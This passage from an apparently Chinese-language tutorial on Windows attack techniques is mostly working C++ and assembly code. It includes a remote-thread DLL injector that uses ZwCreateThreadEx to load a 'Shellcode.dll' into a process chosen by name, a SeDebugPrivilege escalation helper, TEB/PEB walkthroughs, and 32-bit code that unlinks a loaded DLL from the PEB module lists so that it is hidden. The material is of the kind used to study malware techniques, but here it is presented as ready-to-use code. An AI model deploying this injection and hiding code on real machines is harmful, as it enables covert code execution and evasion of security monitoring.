    if (lpSnapshot == INVALID_HANDLE_VALUE)
        //INVALID_HANDLE_VALUE是CreateToolhelp32Snapshot函数的返回值
    {
        printf("获取进程快照失败,请重试! Error:%d", ::GetLastError());
        return Ret;
    }
    p32.dwSize = sizeof(PROCESSENTRY32);
    // p32.dwSize是结构体的大小，需要在使用前设置
    ::Process32First(lpSnapshot, &p32);
    do {
        if (!lstrcmp(p32.szExeFile, lpProcessName))
        {
            Ret = p32.th32ProcessID;
            break;
        }
    } while (::Process32Next(lpSnapshot, &p32));
    ::CloseHandle(lpSnapshot);
    return Ret;
}
DWORD RemoteThreadInject(DWORD Pid, LPCSTR DllName)
{
    DWORD size = 0;
    DWORD DllAddr = 0;
    // 1.打开进程
    HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);
    if (hprocess == NULL)
    {
        printf("OpenProcess error!\n");
        return FALSE;
    }
    size = (strlen(DllName) + 1) * sizeof(TCHAR);
    // 2.申请空间
    LPVOID pAllocMemory = VirtualAllocEx(hprocess, NULL, size, MEM_COMMIT,
        PAGE_READWRITE);
    if (pAllocMemory == NULL)
    {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }
    // 3.写入内存
    BOOL Write = WriteProcessMemory(hprocess, pAllocMemory, DllName, size,
        NULL);
    if (pAllocMemory == 0)
    {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    }
    // 4.获取LoadLibrary - kenrel32.dll
    FARPROC pThread = GetProcAddress(GetModuleHandle("kernel32.dll"),
        "LoadLibraryW");
    LPTHREAD_START_ROUTINE addr = (LPTHREAD_START_ROUTINE)pThread;
    // 加载 ntdll.dll
    HMODULE hNtdllDll = ::LoadLibrary("ntdll.dll");
    if (NULL == hNtdllDll)
    {
        printf("ntdll加载失败。\n");
        return FALSE;
    }
    //5.调用ZwCreateThreadEx创建线程

#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);
#else
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);
#endif
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)::GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
    if (NULL == ZwCreateThreadEx)
    {
        printf("GetProcAddress_ZwCreateThread\n");
        return FALSE;
    }
    // 使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入
    HANDLE hRemoteThread = NULL;
    DWORD dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hprocess, (LPTHREAD_START_ROUTINE)addr, pAllocMemory, 0, 0, 0, 0, NULL);
    if (NULL == hRemoteThread)
    {
        printf("ZwCreateThreadEx fail\n");
        return FALSE;
    }

    // 6.等待线程函数结束
    WaitForSingleObject(hRemoteThread, -1);
    // 7.释放DLL空间
    VirtualFreeEx(hprocess, pAllocMemory, size, MEM_DECOMMIT);
    // 8.关闭句柄
    CloseHandle(hprocess);
    return TRUE;
}
int main(int argc, TCHAR* argv[])
{
    if (argc != 3) {
        std::cerr << "Usage: " << argv[0] << " <ProcessName> <DllPath>" << std::endl;
        return 1;
    }

    // 从命令行参数中获取进程名称和 DLL 文件路径
    //wprintf(L"%s", argv[1]);

    // 获取当前程序的路径
    TCHAR szFilePath[MAX_PATH];
    GetModuleFileName(NULL, szFilePath, MAX_PATH);

    // 从路径中提取目录路径
    std::string strFilePath(szFilePath);
    std::string strDirectory = strFilePath.substr(0, strFilePath.find_last_of("\\") + 1);

    // 构建 Shellcode.dll 的路径
    std::string strDllFullPath = strDirectory + argv[2];

    if (argc == 3) {
        DWORD PID = 0;
        //printf("%s", argv[1]);
        PID = GetProcessPID(argv[1]);
        std::cout << "Process PID: " << PID << std::endl;
        DWORD TMP = RemoteThreadInject(PID, strDllFullPath.c_str());
        std::cout << "RemoteThreadInject result: " << TMP << std::endl;
    }
    else {
        std::cerr << "fail." << std::endl;
    }

    return 0;

}
```

#### 提权函数
```plain
// 提权函数
BOOL EnableDebugPrivilege()
{
    HANDLE hToken;
    BOOL fOk = FALSE;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        TOKEN_PRIVILEGES tp;
        tp.PrivilegeCount = 1;
        LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
        fOk = (GetLastError() == ERROR_SUCCESS);
        CloseHandle(hToken);
    }
    return fOk;
}
```

## 5x2 3断链隐藏dll
### 5x2x0 TEB/PEB
每个线程都有一个TEB结构来存储线程的一些属性结构，32位中TEB的地址用 fs:[0] 来获取，64位TEB 的地址可以通过 GS 寄存器来获取



在0x30这个地址有一个指针指向 `PEB` 结构，PEB就是进程用来记录自己信息的一个结构



在`PEB`的 0x00c 偏移有一个`_PEB_LDR_DATA`结构跟进去



`InLoadOrderModuleList` ：模块加载的顺序  
`InMemoryOrderModuleList` ：模块在内存的顺序  
`InInitializationOrderModuleList` ：模块初始化的顺序  
结构中提供了三个链表，链表内的节点都是一样的，只是排序不同。由于我们要寻找kernel32的基址，所以我们选择第三个 InInitializationOrderModuleList ，这样kernel32的链表节点会比较靠前



这个结构有两个成员，第一个成员 Flink 指向下一个节点， Blink 指向上一个节点。  
接下来是重点：  
`_PEB_LDR_DATA`结构只是一个入口，不是链表节点



真正的链表节点是下图的`_LDR_DATA_TABLE_ENTRY`



整体结构：



### 5x2x1 64位asm内联汇编
1、创建一个源文件asm.asm  
2、asm文件属性设置



3、自定义生成工具设置：

```plain
ml64 /c %(filename).asm

%(filename).obj;%(Outputs)
```



asm代码模板

```plain
EXTERN  myprint:PROC  ;引用外部函数
EXTERN  g_iValue:DQ   ;引用外部变量，dq是QWORD，8字节的变量

.DATA
val1 DQ ?;自己定义变量

.CODE

func2 PROC
    sub rsp,28h  ; 这个地方可能是为了栈空间对齐，不这样做有可能会崩掉，原因未知。反正反汇编一x64的代码都有这个东西
    call myprint
    mov r10,g_iValue ; 此处使用中的stdafx.h全局变量。
    mov val1,r10  ; 使用自定义的变量
    mov rax,val1 ; 写入返回值
    add rsp,28h
    ret
FUNC2 ENDP
END
```

#### 在汇编中调用winapi
有时候需要在汇编中调用windows的64位的API，在调用API之前首先要明白函数调用约定。  
在32位系统中我们调用的用户态API一般都遵循WINAPI(__stdcall)的调用约定,主要规则有两条: 1. 函数参数由右向左入栈;2. 函数调用结束后由被调用函数清除栈内数据（其实是被调者参数的清除）。所以在调用一个遵循WINAPI的函数之后，不需要自己来做被调函数栈空间的清除，因为被调函数已经恢复过了。而在x64汇编中，两方面都发生了变化。一是前四个参数分析通过四个寄存器传递：RCX、RDX、R8、R9，如果还有更多的参数，才通过椎栈传递。二是调用者负责椎栈空间的分配与回收。

```plain
INCLUDELIB kernel32.lib ; 告诉连接器链接这个动态库
EXTERN MessageBoxA:PROC  ; 引用 MessageBoxA函数

.DATA
; 定义局部变量
szCaption   db  '恭喜',0  
szText      db  '当您看到这个信息的时候，您已经可以编译Win32汇编程序了!',0  

.CODE
func2 PROC
    sub rsp,28h
    mov rcx, 0
    mov rdx, offset szText;
    mov r8, offset szCaption
    mov r9, 0
    call MessageBoxA 
    add rsp,28h  
    ret
FUNC2 ENDP
END
```

`sub rsp,28h`是为了给被调用函数的参数和返回地址预留栈空间

### 5x2X2 3环断链隐藏实现（32位）
暂时64位的还没整明白有点问题  
实现代码：

```plain
#include <Windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// LDR链表头
typedef struct _PEB_LDR_DATA
{
    DWORD Length;
    bool Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList; // 指向了 InLoadOrderModuleList 链表的第一项
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA, * PPEB_LDR_DATA;
typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    void* BaseAddress;
    void* EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    SHORT LoadCount;
    SHORT TlsIndex;
    HANDLE SectionHandle;
    ULONG CheckSum;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;
void HideModule(HANDLE hModule)
{
    PPEB_LDR_DATA ldr;
    PLDR_DATA_TABLE_ENTRY ldte;
    __asm
    {
        mov eax, fs: [0x30]     //定位到PEB
        mov ecx, [eax + 0x0c]   //定位到LDR
        mov ldr, ecx
    }
    PLIST_ENTRY Head, Cur;
    Head = &(ldr->InLoadOrderModuleList);
    Cur = Head->Flink;
    do
    {
        ldte = CONTAINING_RECORD(Cur, LDR_DATA_TABLE_ENTRY,
            InLoadOrderModuleList);
        if (ldte->BaseAddress == hModule)
        {

            //匹配到我们指定的dll后进行断链操作
            ldte->InLoadOrderModuleList.Blink->Flink = ldte -> InLoadOrderModuleList.Flink;
            ldte->InLoadOrderModuleList.Flink->Blink = ldte -> InLoadOrderModuleList.Blink;

        }
        Cur = Cur->Flink;
    } while (Head != Cur);
    Head = &(ldr->InMemoryOrderModuleList);
    Cur = Head->Flink;

//三次dowhile给三个表都断链
    do
    {
        ldte = CONTAINING_RECORD(Cur, LDR_DATA_TABLE_ENTRY,
            InMemoryOrderModuleList);
        if (ldte->BaseAddress == hModule)
        {
            ldte->InMemoryOrderModuleList.Blink->Flink = ldte -> InMemoryOrderModuleList.Flink;
            ldte->InMemoryOrderModuleList.Flink->Blink = ldte -> InMemoryOrderModuleList.Blink;
        }
        Cur = Cur->Flink;
    } while (Head != Cur);
    Head = &(ldr->InInitializationOrderModuleList);
    Cur = Head->Flink;
    do
    {
        ldte = CONTAINING_RECORD(Cur, LDR_DATA_TABLE_ENTRY,
            InInitializationOrderModuleList);
        if (ldte->BaseAddress == hModule)
        {
            ldte->InInitializationOrderModuleList.Blink->Flink = ldte -> InInitializationOrderModuleList.Flink;
            ldte->InInitializationOrderModuleList.Flink->Blink = ldte -> InInitializationOrderModuleList.Blink;
        }
        Cur = Cur->Flink;
    } while (Head != Cur);

}
int main(int argc, CHAR* argv[])
{
    HideModule(GetModuleHandleA("kernel32.dll"));
    printf("断链成功\n");
    getchar();
    return 0;
}
```

#

